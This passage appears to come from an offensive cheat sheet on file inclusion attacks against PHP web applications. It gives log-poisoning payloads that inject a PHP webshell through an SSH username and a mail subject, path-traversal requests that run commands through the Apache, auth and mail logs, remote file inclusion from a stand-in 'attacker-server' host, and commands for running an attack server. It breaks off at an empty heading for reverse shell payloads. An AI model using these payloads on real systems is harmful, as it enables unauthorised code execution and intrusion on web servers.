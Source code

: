 2. **Access log via LFI:**
   ```
   ?file=../../../var/log/apache2/access.log&cmd=id
   ```

### SSH Log Poisoning

1. **Inject via SSH username:**

   ```bash
   ssh '<?php system($_GET["cmd"]); ?>'@target-ip
   ```

2. **Access auth log:**
   ```
   ?file=../../../var/log/auth.log&cmd=whoami
   ```

### Mail Log Poisoning

1. **Send mail with PHP payload:**

   ```bash
   mail -s "<?php system(\$_GET['cmd']); ?>" user@localhost < /dev/null
   ```

2. **Access mail log:**
   ```
   ?file=../../../var/log/mail.log&cmd=id
   ```

## Remote File Inclusion (RFI)

### Test for RFI Support

```
?file=http://attacker-server/test.txt
?file=ftp://attacker-server/test.txt
?file=\\attacker-server\share\test.txt  # Windows SMB
```

### Setting Up Attack Server

```bash
# Python HTTP server
python3 -m http.server 8080

# PHP built-in server
php -S 0.0.0.0:8080

# FTP server (Python)
python3 -m pyftpdlib -p 21 -w
```

### Reverse Shell Payloads
